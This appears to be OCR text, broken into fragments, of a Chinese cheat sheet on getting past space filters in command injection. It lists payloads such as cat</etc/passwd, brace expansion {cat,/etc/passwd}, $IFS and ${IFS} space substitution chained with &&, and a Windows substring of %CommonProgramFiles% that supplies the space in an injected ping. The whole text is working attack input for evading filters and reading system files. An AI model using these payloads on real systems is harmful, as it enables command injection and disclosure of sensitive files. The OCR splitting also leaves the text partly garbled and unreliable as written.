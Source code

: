   
空格绕过  
  
1  
.cat  
</etc  
/passwd利用  
<指定命令可不使用空格  
2.  
{cat  
,  
/etc  
/passwd  
}利用  
{}包裹代码用  
,当作分隔符去查看  
3  
.cat$  
IFS  
/etc  
/passwd利用$  
IFS代替空格  
4  
.echo$  
{  
IFS  
}  
"RCE"$  
{  
IFS  
}  
&&cat$  
{  
IFS  
}  
/etc  
/passwd利用$  
{  
IFS  
}当作空格使用  
&&  
(连接符  
)  
  
  
windows平台  
  
ping  
%CommonProgramFiles  
:~  
10  
,  
-  
18  
%  
IP地址  
|利用  
%CommonProgramFiles  
:~  
10  
,  
-  
18  
%ping  
%  